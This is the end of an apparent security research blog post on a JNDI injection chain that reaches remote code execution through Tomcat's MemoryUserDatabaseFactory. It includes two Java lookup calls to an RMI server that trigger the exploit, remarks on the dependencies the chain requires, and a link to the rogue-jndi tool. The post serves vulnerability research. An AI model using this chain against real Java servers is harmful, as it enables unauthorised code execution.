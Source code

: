```java
new InitialContext().lookup("rmi://127.0.0.1:1099/Dir");
new InitialContext().lookup("rmi://127.0.0.1:1099/Rce");
```

![](/assets/images/jndi-injection-rce-via-path-manipulation-in-memoryuserdatabasefactory/rce.png "Getting RCE via JNDI Injection")

## Conclusion

Even though it appears that several dependencies are required, I'm confident that we can reduce this by finding other directory creation vectors, or other routes to chain the attack together. For example, if you had an arbitrary directory creation primitive already you can remove the velocity dependency. Also, several libraries tend to be grouped, packaged and deployed together so where you see tomcat catalina libraries, you will certainly find tomcat util libraries.

This gives a nice alternative to the typical `BeanFactory` + `ELProcessor`/`GroovyShell` combo which maybe required when `ELProcessor` or `GroovyShell` are not available but it *does* require JSP execution in the target context. 

## References

- [https://github.com/veracode-research/rogue-jndi/](https://github.com/veracode-research/rogue-jndi/)
